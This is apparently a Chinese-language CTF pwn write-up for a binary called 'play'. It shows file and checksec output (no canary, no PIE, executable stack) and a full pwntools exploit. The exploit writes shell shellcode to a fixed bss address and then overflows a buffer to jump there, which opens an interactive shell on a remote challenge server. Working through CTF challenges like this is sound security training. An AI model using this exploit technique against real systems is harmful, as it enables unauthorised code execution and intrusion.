

# {{$frontmatter.title}}
[[toc]]

## 检查文件
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file play 
play: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4926fb5dafda3e91fe12a14a0f54d42fa85c27a7, not stripped
                                                                                    
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=play 
[*] '/home/kali/win/Downloads/play'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## ida


很显然是 bss shellcode

## exp
```py
from pwn import *
context(os="linux", arch='amd64')
# io = process("./play")
io = remote("120.46.59.242",  2101)

shellcode = asm(shellcraft.amd64.sh())
shellcode_addr = 0x00000000006010A0
padding = 0x30+ 8

io.recvline()
io.sendline(shellcode)


payload = b'A'*padding + p64(shellcode_addr)
io.sendline(payload)
io.interactive()
```